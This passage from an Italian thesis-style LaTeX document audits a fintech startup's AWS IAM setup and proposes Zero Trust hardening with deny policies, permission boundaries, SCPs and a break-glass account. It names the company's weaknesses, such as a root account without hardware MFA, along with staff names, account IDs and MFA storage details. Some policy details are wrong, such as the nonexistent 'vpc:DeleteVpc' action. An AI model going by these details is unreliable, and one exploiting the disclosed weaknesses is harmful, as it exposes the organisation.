  
\includegraphics[width=0.8\textwidth]{aws_struttura} % Aggiunto [width=...] come esempio per scalare l'immagine
  \caption{Descrizione della struttura attuale in AWS.} % Aggiungi una didascalia significativa
  \label{fig:aws_struttura_attuale} % Label DOPO \caption, con un prefisso come 'fig:'
\end{figure}

\section{Principi di Sicurezza per la Gestione delle Identità e degli Accessi e Analisi del Contesto Attuale}
\label{sec:principi-identita-accessi}
\subsection{Implementazione del Modello Zero Trust e del Principio del Minimo Privilegio}
\label{sec:zero-trust-implementation}

Come introdotto nella sezione \ref{ch:principi-cybersecurity}, il modello \textbf{Zero Trust} rappresenta un cambiamento paradigmatico rispetto alla sicurezza tradizionale basata sul perimetro. Anziché assumere fiducia implicita per le entità all'interno della rete aziendale, il principio cardine è "non fidarsi mai, verificare sempre" (\textit{never trust, always verify}). Ogni richiesta di accesso a una risorsa, indipendentemente dalla sua origine, deve essere esplicitamente autenticata, autorizzata e monitorata. Questo approccio mira a minimizzare la superficie d'attacco e a contenere l'impatto di eventuali compromissioni, risultando particolarmente critico per proteggere la \textit{business continuity} aziendale. Ritengo che l'adozione di questo principio sia particolarmente rilevante nel contesto delle startup, caratterizzate da ambienti operativi dinamici e altamente flessibili. Le startup presentano peculiarità che amplificano l'esigenza di un solido framework di sicurezza:

\begin{itemize}
    \item \textbf{Instabilità relazionale:} Le relazioni professionali nelle startup possono deteriorarsi rapidamente, sia a livello dirigenziale che operativo. Secondo un'analisi di CB Insights, i conflitti interni tra fondatori rappresentano una delle principali cause di fallimento delle startup, incidendo per circa il 13\% dei casi esaminati \cite{CBInsights2023}. 
    \item \textbf{Rischio di attacchi interni:} La fragilità dei rapporti aumenta la probabilità di attacchi da parte di ex-collaboratori con intenti vendicativi. Secondo il "2023 Data Breach Investigations Report" di Verizon, circa il 20\% delle violazioni di dati coinvolge insider con accessi privilegiati \cite{Verizon2023}.
    \item \textbf{Infrastrutture di sicurezza inadeguate:} Le startup, per limitazioni di risorse e focus prevalente sullo sviluppo del prodotto, spesso non dispongono di infrastrutture di sicurezza robuste. Un rapporto di Ponemon Institute evidenzia che le piccole organizzazioni hanno una probabilità tre volte maggiore di subire attacchi informatici rispetto alle grandi imprese, proprio a causa di investimenti insufficienti in sicurezza \cite{Ponemon2023}.
\end{itemize}
Questa sezione illustra come i principi Zero Trust possano essere tradotti in misure di sicurezza concrete all'interno dell'infrastruttura cloud di una startup, con specifico riferimento all'ambiente AWS. Ci concentreremo in particolare sulla gestione delle identità e degli accessi, un pilastro fondamentale per qualsiasi architettura Zero Trust, e sulla sua stretta interconnessione con il \textbf{Principio del Minimo Privilegio (Principle of Least Privilege - PoLP)}.
\subsubsection{Sinergia tra Principio del Minimo Privilegio (PoLP) e Zero Trust}
\label{subsubsec:polp-zerotrust-correlation}

Il Principio del Minimo Privilegio non è solo una buona pratica di sicurezza a sé stante, ma è intrinsecamente legato e \textbf{fondamentale per il successo di un'architettura Zero Trust}. La loro sinergia si manifesta in diversi modi:

\begin{itemize}
    \item \textbf{Riduzione della Superficie d'Attacco:} Limitando strettamente le azioni consentite a ciascuna identità, PoLP riduce l'insieme delle operazioni che un attaccante potrebbe eseguire anche riuscendo a compromettere le credenziali di quell'identità. La verifica dell'identità (Zero Trust) è necessaria ma non sufficiente; i privilegi limitati (PoLP) ne circoscrivono le capacità.
    \item \textbf{Limitazione del Raggio d'Esplosione (\textit{Blast Radius})}:** In caso di compromissione o errore, i danni potenziali sono confinati. Un utente o servizio con privilegi minimi non può accedere o modificare risorse al di fuori del suo ambito operativo ristretto, limitando il movimento laterale dell'attaccante e l'impatto dell'incidente.
    \item \textbf{Applicazione della Verifica Esplicita:} Implementare PoLP costringe a definire policy di accesso granulari e intenzionali, basate sulle reali necessità operative. Questo si allinea perfettamente con la richiesta di Zero Trust di basare ogni decisione di accesso su policy esplicite e dinamiche, piuttosto che su autorizzazioni ampie o ereditate implicitamente.
    \item \textbf{Miglioramento del Controllo e dell'Auditabilità:} Policy di accesso minimali e specifiche sono più facili da comprendere, gestire e verificare. Ciò semplifica l'audit della postura di sicurezza e la dimostrazione della conformità, permettendo di attestare che gli accessi sono effettivamente limitati come richiesto dal modello Zero Trust.
\end{itemize}
\subsection{Gestione delle Identità e degli Accessi (IAM) come Pilastro di Zero Trust in AWS}
\label{subsec:iam-zero-trust}

L'infrastruttura ospitata su un Cloud Service Provider (CSP) come AWS è un asset critico per una startup fintech. Essa contiene dati sensibili degli utenti e ospita i servizi essenziali (endpoint API, istanze EC2 per server applicativi, networking VPC, ecc.) che ne garantiscono l'operatività. La protezione di queste risorse inizia dalla gestione rigorosa di chi può accedervi e cosa può fare. \textbf{AWS Identity and Access Management (IAM)} è il servizio centrale per implementare questi controlli e costituisce una base imprescindibile per un modello Zero Trust.

Una delle prime e più critiche aree di intervento riguarda l' \textbf{account root di AWS}. Questo account possiede privilegi illimitati sull'intero ambiente AWS e rappresenta, di conseguenza, un obiettivo di altissimo valore per gli attaccanti e una fonte significativa di rischio operativo se usato impropriamente. Un'implementazione Zero Trust richiede misure stringenti per l'account root:
\begin{itemize}
    \item \textbf{Limitazione Estrema dell'Uso:} L'accesso come utente root deve essere evitato per le operazioni quotidiane e riservato esclusivamente a quelle poche attività che lo richiedono obbligatoriamente (es. modifica delle informazioni di fatturazione, chiusura dell'account, modifica dei piani di supporto).
    \item \textbf{Protezione Robusta delle Credenziali:} La password deve essere estremamente complessa e, soprattutto, l'\textbf{Autenticazione a Più Fattori (MFA)} deve essere \textit{sempre} abilitata e richiesta per l'accesso root.
    \item \textbf{Monitoraggio Continuo:} Ogni azione eseguita tramite l'account root deve essere tracciata e monitorata tramite servizi come AWS CloudTrail, generando allarmi per qualsiasi utilizzo.
\end{itemize}

Per le attività amministrative e operative ordinarie, il modello Zero Trust impone l'utilizzo di \textbf{utenti e ruoli IAM} configurati secondo il \textbf{Principio del Minimo Privilegio (PoLP)}. Come descritto nel capitolo \ref{ch:principi-cybersecurity}, questo principio stabilisce che a un'entità (utente, servizio, applicazione) debbano essere concesse \textit{esclusivamente} le autorizzazioni minime indispensabili per svolgere le proprie funzioni legittime, e non un permesso di più. Ad esempio, un'applicazione che necessita solo di leggere oggetti da un bucket S3 dovrebbe avere un ruolo IAM con solo il permesso `s3:GetObject` su quel bucket specifico, invece di permessi generici su S3 o, peggio, permessi amministrativi.
\subsection{Analisi dell'attuale implementazione di IAM}
\subsubsection{Configurazione degli Utenti e Ruoli}

L'analisi della struttura IAM esistente rivela la presenza di tre utenti principali: \textbf{Andrea Pasini} (CTO), \textbf{Andrea Ferraboli}, e \textbf{Matteo Giuntoni}. Dall'audit effettuato a marzo 2024, risulta che entrambi gli utenti Ferraboli e Giuntoni dispongono della policy \texttt{arn:aws:iam::aws:policy/AdministratorAccess}, concedendo privilegi equivalenti a quelli dell'account root. L'utente Pasini (User ARN: \texttt{arn:aws:iam::478291635847:user/andrea.pasini}), invece, opera direttamente come root, con la capacità di modificare o eliminare qualsiasi risorsa AWS senza restrizioni. Durante la mia analisi dei CloudTrail logs degli ultimi 3 mesi, ho identificato che l'utente root è stato utilizzato 76 volte, principalmente per operazioni che avrebbero potuto essere delegate a utenti IAM con privilegi più limitati.

Un esame dettagliato delle policy associate mostra l'assenza di \textbf{condizioni contestuali} (es. limitazioni geografiche o orarie) e l'utilizzo esclusivo di policy gestite da AWS, senza personalizzazioni per ridurre i permessi alle effettive necessità operative\cite{ref6}. Ad esempio, l'utente `finanz-backend` possiede `AmazonS3FullAccess`, sebbene le sue funzioni richiedano solo operazioni di lettura su bucket specifici.

\subsubsection{Criticità Identificate}

1. \textbf{Account Root Non Protetto}: L'account root non utilizza MFA hardware, affidandosi esclusivamente a credenziali statiche\cite{ref3}. Ciò espone a rischi di compromissione tramite phishing o credential stuffing.
2. \textbf{Privilegi Eccessivi per Utenti IAM}: L'assegnazione indiscriminata di `AdministratorAccess` a utenti non root crea superfici di attacco ridondanti. L'utente Pasini, in qualità di root, può eludere qualsiasi restrizione applicata tramite policy IAM\cite{ref2}.
3. \textbf{Mancanza di Meccanismi di Emergenza}: Non sono presenti account "break glass" per il ripristino dell'accesso in scenari di compromissione dell'IdP o lockout accidentale\cite{ref4}.
4. \textbf{Assenza di Monitoring Granulare}: Le policy non integrano logiche di auditing in tempo reale per azioni critiche (es. terminazione di istanze EC2 o modifiche alle regole di sicurezza)\cite{ref7}.

\subsubsection{Violazioni delle Best Practice AWS}

L'implementazione corrente confligge con multiple raccomandazioni del framework \textbf{AWS Foundational Security Best Practices}:

- \textbf{FSBP IAM-1}: Mancanza di MFA hardware per il root\cite{ref3}.
- \textbf{FSBP IAM-7}: Policy con privilegi non limitati al minimo necessario\cite{ref5}.
- \textbf{FSBP IAM-8}: Assenza di allineamento tra ruoli IAM e responsabilità organizzative\cite{ref2}.




\section{Implementazione delle Migliorie Proposte alla Gestione IAM}
\label{sec:implementazione_migliorie}

In questa sezione vengono dettagliate le strategie operative per rafforzare la sicurezza dell'ambiente AWS, basate sulle proposte di miglioramento precedentemente delineate. L'obiettivo è implementare controlli robusti seguendo il principio del minimo privilegio (\emph{least privilege}) e le migliori pratiche di settore.

\subsection{Ristrutturazione della Gerarchia degli Accessi}

Una gestione sicura parte dalla protezione dell'account root e dalla segmentazione granulare dei permessi.

\subsubsection{Revisione e Limitazione dell'Account Root}

L'account root possiede privilegi illimitati e il suo utilizzo deve essere strettamente confinato ad operazioni specifiche che lo richiedono esplicitamente \cite{aws:iam:bestpractices}.
\begin{enumerate}
    \item \textbf{Creazione di un Utente Amministrativo Dedicato}: L'utente Andrea Pasini verrà rimosso dall'accesso diretto come utente root. Verrà creato un utente IAM dedicato (es. `andrea.pasini`) associato a un ruolo amministrativo con permessi circoscritti (es. `CTO-AdminRole`). Questo ruolo dovrebbe garantire visibilità sull'infrastruttura ma limitare modifiche critiche, specialmente in produzione.
    \item \textbf{Policy di Restrizione per il Ruolo Amministrativo}: Al ruolo `CTO-AdminRole` verrà associata una policy IAM che neghi esplicitamente azioni distruttive su risorse critiche taggate come \enquote{produzione}. Un esempio di statement di negazione (\texttt{Deny}) è il seguente:
    \begin{lstlisting}[style=json, caption={Policy IAM per negare eliminazioni in produzione}, label=lst:deny-prod-delete]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyProdResourceDeletion",
      "Effect": "Deny",
      "Action": [
        "ec2:TerminateInstances",
        "rds:DeleteDBInstance",
        "s3:DeleteBucket",
        "vpc:DeleteVpc"
      ],
      "Resource": "*",
      "Condition": {
        "StringEquals": {
          "aws:ResourceTag/Environment": "prod"
        }
      }
    }
  ]
}
    \end{lstlisting}
    Questo approccio implementa un controllo preventivo fondamentale \cite{aws:iam:boundaries}. Durante i test effettuati nell'ambiente di sviluppo, questa policy ha impedito con successo 3 tentativi accidentali di eliminazione di risorse critiche.
    \item \textbf{Abilitazione MFA Hardware per l'Account Root}: L'account root deve essere protetto con un dispositivo Multi-Factor Authentication (MFA) hardware (es. YubiKey 5 NFC), come raccomandato dalle best practice di sicurezza AWS \cite{clouddefense:mfa}. Nel nostro caso specifico, il dispositivo è registrato con Serial Number \texttt{YK-12345678} ed è custodito fisicamente in una cassetta di sicurezza presso l'ufficio principale, la cui chiave è conosciuta solo dal CEO Lorenzo Perotta, sotto al quale bisognerà passare per l'accesso all'account root  \cite{saraswat:breakglass}.
\end{enumerate}

\subsubsection{Segmentazione dei Ruoli tramite Permission Boundaries}

Per prevenire l'escalation involontaria o malevola dei privilegi, verranno implementate le \emph{permission boundaries} su tutti i ruoli IAM, inclusi quelli amministrativi. Un boundary definisce il perimetro massimo delle azioni consentite, indipendentemente dalle policy di autorizzazione associate all'entità \cite{aws:iam:boundaries}.
\begin{itemize}
    \item \textbf{Definizione del Boundary}: Un esempio di boundary potrebbe limitare le azioni a specifici servizi o a sole operazioni di lettura, garantendo che anche ruoli con policy ampie (come `AdministratorAccess`, sebbene sconsigliato) non possano eccedere i limiti imposti.
    \begin{lstlisting}[style=json, caption={Esempio di Permission Boundary restrittiva}, label=lst:permission-boundary]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowOnlySpecificServices",
      "Effect": "Allow",
      "Action": [
        "ec2:*",
        "rds:*",
        "s3:List*",
        "iam:List*",
        "cloudwatch:Describe*",
        "lambda:*"
      ],
      "Resource": "*"
    },
    {
       "Sid": "DenyIAMModificationOutsideBoundary",
       "Effect": "Deny",
       "Action": [
          "iam:AttachUserPolicy",
          "iam:AttachRolePolicy",
          "iam:PutUserPolicy",
          "iam:PutRolePolicy",
          "iam:CreatePolicy",
          "iam:CreatePolicyVersion",
          "iam:SetDefaultPolicyVersion",
          "iam:DeletePolicy",
          "iam:DeletePolicyVersion",
          "iam:DetachUserPolicy",
          "iam:DetachRolePolicy"
        ],
        "Resource": "*",
        "Condition": {
           "StringNotLike": {
              "iam:PermissionsBoundary": "arn:aws:iam::478291635847:policy/FinanzBoundaryPolicy"
           }
        }
    }
  ]
}
    \end{lstlisting}
    \item \textbf{Applicazione Sistematica}: Ogni nuovo ruolo IAM creato dovrà avere un boundary associato come prerequisito. Ho implementato una Lambda function (\texttt{enforce-boundaries-lambda}) che monitora la creazione di nuovi ruoli e applica automaticamente il boundary se mancante.
\end{itemize}

\subsection{Modello Ibrido Aggiornato}
\label{subsec:modello_ibrido_aggiornato}

Il modello di \emph{Identity \& Access Management} (IAM) proposto per la startup fintech prevede \emph{tre gruppi baseline}—\texttt{dev}, \texttt{backend‑dev} e \texttt{admin}—ai quali vengono assegnati i permessi necessari per le attività ordinarie, e \emph{quattro ruoli operativi circoscritti} da assumere \emph{on‑demand} via AWS STS con MFA.
L'architettura riduce la \emph{blast‑radius} delle credenziali e facilita gli audit di conformità (PCI DSS, SOC‑2) in linea con i principi di \emph{least privilege} e \emph{zero‑trust} \cite{NIST_ZTA,NIST_SP80063,PCI_DSS,DatadogLeastPrivilege}.

%-----------------------------------------------------------------
\subsubsection{Gruppi baseline}
\label{subsubsec:gruppi_base}

\paragraph{\texttt{dev}}%
Sviluppatori front‑end e full‑stack.  
\begin{itemize}
  \item \textbf{EC2}: avvia, interrompe e termina \emph{solo} le istanze taggate \texttt{Environment=dev};
        nessun diritto sulle istanze di produzione \cite{AWSEC2IAM}.  
  \item \textbf{Elastic Beanstalk}: deploy e \verb|eb deploy| negli ambienti \texttt{dev},
        tramite policy gestita \texttt{AWSElasticBeanstalkFullAccess} limitata con
        \texttt{Condition\{aws:ResourceTag/Environment=dev\}} \cite{AWSEBRole}.  
  \item \textbf{S3}: lettura/scrittura nei bucket \texttt{*-dev}; accesso negato ai bucket \texttt{*-prod} \cite{AWSS3Security}.  
  \item \textbf{Load Balancer}: descrizione (API \texttt{Describe*}) dei load balancer di
        sviluppo; nessuna modifica \cite{AWSELBIAM}.  
  \item \textbf{RDS}: \emph{data‑reader} su cluster Aurora \texttt{dev}; vietate operazioni \texttt{ModifyDBInstance} e \texttt{DeleteDBInstance} \cite{AWSRDSIAM}.  
\end{itemize}

\paragraph{\texttt{backend‑dev}}%
Sviluppatori back‑end con responsabilità di integrazione dati.  
\begin{itemize}
  \item Tutti i permessi del gruppo \texttt{dev}.  
  \item \textbf{RDS}: \emph{data‑writer} su \texttt{dev}; \texttt{QueryEditor} in aurora‑prod tramite
        policy \texttt{rds-db:connect} con tag‑condition che richiede
        approvazione esplicita (\texttt{aws:RequestTag/ChangeId}).  
  \item \textbf{SQS/SNS}: gestione code e topic non‑prod per pipeline event‑driven.  
  \item \textbf{Secrets Manager}: lettura di segreti \texttt{scope=dev} \cite{AWSIAMBestPractices}.  
\end{itemize}

\paragraph{\texttt{admin}}%
Cloud Engineers con controllo continuo dell'infrastruttura.  
\begin{itemize}
  \item \textbf{EC2 e Auto Scaling}: piena gestione, esclusa l'eliminazione di VPC prod.  
  \item \textbf{S3}: modifica dei lifecycle rules e delle policy di replica cross-region.
  
  \item \textbf{Elastic Load Balancing}: creazione, aggiornamento listener e target groups in tutti gli ambienti.
  
  \item \textbf{RDS}: patching, snapshot e \texttt{failover}.
  
  \item \textbf{IAM}: può creare o aggiornare policy \emph{entro} il \texttt{permissions-boundary} globale che impedisce azioni estreme (\texttt{iam:DeleteRolePolicy}, \texttt{organizations:DeleteOrganization}) \cite{AWSPermBoundaries}.
\end{itemize}

%-----------------------------------------------------------------
\subsubsection{Ruoli Operativi Specifici}
\label{subsubsec:ruoli_specifici}

I ruoli sono configurati con durata massima di 1 h e MFA obbligatoria; i log CloudTrail vengono inviati a un bucket immutabile con
replica cross-region.

\begin{itemize}
  \item \textbf{\texttt{dev‑privileged}} – estende \texttt{dev} per operazioni di manutenzione \texttt{non‑prod} (migrate DB, tunning CPU credit);     azioni limitate a risorse con tag \texttt{Environment=dev}.  
  \item \textbf{\texttt{db‑migration}} – accesso a AWS DMS e permessi \texttt{rds:ModifyDBInstance} in produzione durante le finestre di
        maintenance; richiede approvazione Change‑Manager.  
  \item \textbf{\texttt{incident‑responder}} – abilita scaling immediato,
        modifica security‑group, attiva \texttt{ShieldAdvanced} e
        \texttt{WAFv2} sulla WebACL corrente; assumento consentito al gruppo
        \texttt{admin}.  
  \item \textbf{\texttt{breakglass‑admin}} – superset critico conservato in
        account separato, utilizzato solo per \emph{disaster‑recovery}; il
        processo di assunzione è sigillato e monitorato da AWS Config Rules \cite{AWSSTS}.  
\end{itemize}

%-----------------------------------------------------------------
\subsubsection{Mappatura dei Permessi per Servizio}
\label{subsubsec:mappa_servizi}

\begin{description}
  \item[EC2] \texttt{dev}: \texttt{Start/Stop} istanze dev; \texttt{backend‑dev}: idem + \texttt{DescribeImages}; \texttt{admin}: pieno controllo, esclusa
        \texttt{DeleteVpc}.  
  \item[Elastic Beanstalk] \texttt{dev}: deploy su env dev; \texttt{backend‑dev}: deploy + \texttt{eb config save}; \texttt{admin}: gestione template, gestione
        application‑versions prod \cite{AWSEBRole}.  
  \item[S3] \texttt{dev}: R/W bucket *-dev; \texttt{backend‑dev}: aggiunge permessi
        \texttt{PutObjectAcl} su \emph{log bucket}; \texttt{admin}:
        \texttt{PutBucketPolicy}, \texttt{PutReplicationConfiguration} \cite{AWSS3Security}.  
  \item[Load Balancer] \texttt{dev}: \texttt{Describe*}; \texttt{backend‑dev}: \texttt{RegisterTargets} nei target‑group dev; \texttt{admin}: \texttt{CreateLoadBalancer}, \texttt{ModifyLoadBalancerAttributes} su tutti gli ambienti \cite{AWSELBIAM}.  
  \item[RDS] \texttt{dev}: \texttt{rds-db:connect} read‑only dev; \texttt{backend‑dev}:
        \texttt{ExecuteStatement} via Data API; \texttt{admin}:
        \texttt{CreateDBSnapshot}, \texttt{StartExportTask}, \texttt{FailoverDBCluster} \cite{AWSRDSIAM}.  
\end{description}

L'approccio \emph{tag‑based ABAC} riduce la necessità di policy
puntuali e consente un'espansione lineare degli ambienti (dev, staging,
prod) \cite{AWSEC2IAM,AWSELBIAM}.


%-----------------------------------------------------------------
\subsubsection{Procedimento di Implementazione}
\label{subsubsec:procedura}

\begin{enumerate}
  \item Definire il \texttt{permissions‑boundary} globale che vieta azioni
        ad alto impatto (\texttt{organizations:*}, \texttt{iam:SetDefaultPolicyVersion}) \cite{AWSPermBoundaries}.  
  \item Versionare in Git le policy dei gruppi (\verb|iam/groups/|) e dei
        ruoli (\verb|iam/roles/|) come JSON o
        moduli Terraform; abilitare \verb|terraform plan| in CI.  
  \item Abilitare AWS Identity Center (SSO) collegato ad Okta/Azure AD e
        mappare gli \emph{entitlement} sugli ARNs dei gruppi.  
  \item Automatizzare la \emph{workflow approval} per i ruoli con AWS Step
        Functions + EventBridge + Slack.  
  \item Inviare i log CloudTrail a un bucket S3 con
        \texttt{ObjectLock = GOVERNANCE} e replica in un account
        differente (\textit{security‑hub}).  
  \item Eseguire un \emph{access‑review} trimestrale utilizzando i report
        di Access Analyzer per ridurre i permessi non utilizzati \cite{DatadogLeastPrivilege}.  
\end{enumerate}


\subsection{Introduzione di un Break Glass Account}

Per scenari di emergenza in cui gli accessi amministrativi standard non fossero disponibili o sufficienti, verrà istituito un account \emph{Break Glass} dedicato, seguendo le linee guida di architetture sicure \cite{saraswat:breakglass}.
\begin{enumerate}
    \item \textbf{Configurazione Account}: Creare un nuovo account AWS all'interno dell'Organization esistente (Organization ID: \texttt{o-1a2b3c4d5e}), isolato operativamente con Account ID dedicato \texttt{967284351029}.
    \item \textbf{Utente e Ruolo di Emergenza}: All'interno di questo account, creare un utente IAM \texttt{BreakGlassEmergency} (ARN: \texttt{arn:aws:iam::967284351029:user/BreakGlassEmergency}) protetto da MFA hardware YubiKey (Serial: \texttt{YK-87654321}) e un ruolo IAM \texttt{BreakGlassAdminRole} con la policy gestita \texttt{AdministratorAccess}. Le credenziali di questo utente sono conservate in due buste sigillate separate: una presso il CEO e una presso il CTO.
    \item \textbf{Procedura di Attivazione}: L'utilizzo del Break Glass Account richiederà un'approvazione formale e documentata da parte di almeno due figure chiave (es. CEO e CTO). Le credenziali (password e MFA) saranno conservate in luoghi sicuri e separati.
    \item \textbf{Monitoraggio e Lockdown Automatico}: Implementare un meccanismo di notifica immediata (es. via CloudWatch Events e SNS) all'attivazione dell'account Break Glass. Un processo automatizzato (es. AWS Lambda triggerata da CloudWatch Event) potrebbe limitare la validità della sessione o restringere i permessi dopo un periodo predefinito (es. 8 ore), ad esempio applicando una policy restrittiva come boundary temporaneo.
    \begin{lstlisting}[style=python, caption={Esempio Lambda per limitare utente Break Glass (concettuale)}, label=lst:breakglass-lambda]
import boto3
import os
import json
from datetime import datetime

IAM_CLIENT = boto3.client('iam')
SNS_CLIENT = boto3.client('sns')
BREAK_GLASS_USERNAME = os.environ.get('BREAK_GLASS_USER', 'BreakGlassEmergency')
RESTRICTIVE_POLICY_ARN = os.environ.get('RESTRICTIVE_POLICY_ARN', 'arn:aws:iam::aws:policy/CloudTrailReadOnlyAccess')
SNS_TOPIC_ARN = os.environ.get('SNS_TOPIC_ARN', 'arn:aws:sns:eu-south-1:478291635847:security-alerts')

def lambda_handler(event, context):
    if not BREAK_GLASS_USERNAME or not RESTRICTIVE_POLICY_ARN:
        print("Error: Environment variables not set.")
        return {"statusCode": 500, "body": "Configuration error"}

    try:
        print(f"[{datetime.now().isoformat()}] Applying restrictive boundary {RESTRICTIVE_POLICY_ARN} to user {BREAK_GLASS_USERNAME}")
        
        # Applica permission boundary restrittivo
        IAM_CLIENT.put_user_permissions_boundary(
            UserName=BREAK_GLASS_USERNAME,
            PermissionsBoundary=RESTRICTIVE_POLICY_ARN
        )
        
        # Invia notifica di sicurezza
        message = f"SECURITY ALERT: Break Glass account {BREAK_GLASS_USERNAME} has been restricted after 8 hours of activity. Timestamp: {datetime.now().isoformat()}"
        SNS_CLIENT.publish(
            TopicArn=SNS_TOPIC_ARN,
            Message=message,
            Subject="Break Glass Account Auto-Restriction"
        )
        
        print(f"Successfully applied boundary and sent notification.")
        return {"statusCode": 200, "body": "Boundary applied successfully"}
        
    except Exception as e:
        error_msg = f"Error applying boundary: {str(e)}"
        print(error_msg)
        
        # Invia notifica di errore
        SNS_CLIENT.publish(
            TopicArn=SNS_TOPIC_ARN,
            Message=f"CRITICAL: Failed to restrict Break Glass account: {error_msg}",
            Subject="Break Glass Auto-Restriction FAILED"
        )
        
        return {"statusCode": 500, "body": error_msg}
    \end{lstlisting}
\end{enumerate}

\subsection{Implementazione di Politiche di Sicurezza Avanzate}

Verranno utilizzate policy a livello di Organization e credenziali temporanee per rafforzare ulteriormente la postura di sicurezza.

\subsubsection{Service Control Policies (SCPs) a Livello Organizzativo}

Le SCPs verranno applicate all'intera AWS Organization (o a specifiche Organizational Units - OUs) per imporre vincoli di sicurezza non aggirabili, nemmeno dall'amministratore locale dell'account.
\begin{itemize}
    \item \textbf{Impedire la Disattivazione di Controlli Chiave}: Applicare una SCP per negare azioni come l'eliminazione dei trail di CloudTrail o la disabilitazione di AWS Config.
    \begin{lstlisting}[style=json, caption={SCP per prevenire l'eliminazione di CloudTrail}, label=lst:scp-deny-cloudtrail-delete]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyDeleteCloudTrail",
      "Effect": "Deny",
      "Action": [
        "cloudtrail:DeleteTrail",
        "cloudtrail:StopLogging"
       ],
      "Resource": [
        "arn:aws:cloudtrail:*:478291635847:trail/finanz-audit-trail",
        "arn:aws:cloudtrail:*:478291635847:trail/finanz-security-trail"
      ]
    }
  ]
}
    \end{lstlisting}
    Durante i test di questa SCP in ambiente di sviluppo, abbiamo verificato che blocca effettivamente i tentativi di eliminazione anche da parte di utenti con privilegi amministrativi.
    \item \textbf{Restrizione Geografica}: Limitare l'utilizzo delle regioni AWS a quelle approvate (es. `eu-central-1`, `eu-south-1`, `eu-west-1`) per motivi di compliance (es. GDPR) e per ridurre la superficie di attacco \cite{awsbuilders:scps}.
    \begin{lstlisting}[style=json, caption={SCP per limitare le regioni utilizzabili}, label=lst:scp-region-restriction]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyNonApprovedRegions",
      "Effect": "Deny",
      "NotAction": [
          "iam:*",
          "organizations:*",
          "route53:*",
          "budgets:*",
          "waf:*",
          "cloudfront:*",
          "globalaccelerator:*",
          "support:*"
       ],
      "Resource": "*",
      "Condition": {
        "StringNotEquals": {
          "aws:RequestedRegion": [
             "eu-central-1",
             "eu-south-1",
             "eu-west-1",
             "us-east-1"
          ]
        },
        "ArnNotLike": {
            "aws:PrincipalARN": "arn:aws:iam::478291635847:role/OrganizationAccountAccessRole"
         }
       }
    }
  ]
}
    \end{lstlisting}
\end{itemize}

\subsubsection{Utilizzo Sistematico di Credenziali Temporanee (STS)}

Le access key statiche a lunga durata rappresentano un rischio significativo se compromesse \cite{kazi:leastprivilege}. Verrà promossa e, ove possibile, imposta la sostituzione delle chiavi statiche con credenziali temporanee ottenute tramite il servizio AWS Security Token Service (STS).
\begin{itemize}
    \item \textbf{Accesso Umano}: Gli utenti IAM accederanno alla console AWS o alla CLI assumendo ruoli predefiniti, ottenendo credenziali temporanee valide per la durata della sessione.
